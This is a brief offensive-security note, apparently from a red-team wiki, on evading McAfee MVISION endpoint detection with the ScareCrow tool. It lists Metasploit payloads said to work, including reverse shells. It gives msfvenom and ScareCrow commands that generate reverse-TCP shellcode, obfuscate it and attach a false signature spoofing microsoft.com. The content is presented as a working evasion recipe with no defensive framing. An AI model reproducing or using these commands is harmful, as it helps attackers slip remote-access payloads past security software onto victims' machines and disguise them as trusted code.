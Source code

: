 # McAfee MVISION

## Bypassing using ScareCrow

You can use the [scarecrow](https://github.com/optiv/ScareCrow) tool to bypass McAfee EDR. We tested 3 types of metasploit payloads that work, they are:

* windows/x64/shell/reverse\_tcp
* windows/x64/meterpreter\_reverse\_https
* windows/x64/exec

Commands:

```
$ msfvenom -p windows/x64/shell/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw -a x64 -e x64/xor > shellcode.bin 
$ ./ScareCrow_4.11_linux_amd64 -I shellcode.bin -domain microsoft.com 
```

It obscures itself to circumvent protections and also contains a false signature to give more credibility to the target. ![](https://github.com/optiv/ScareCrow/raw/main/Screenshots/File\_Attributes.png)
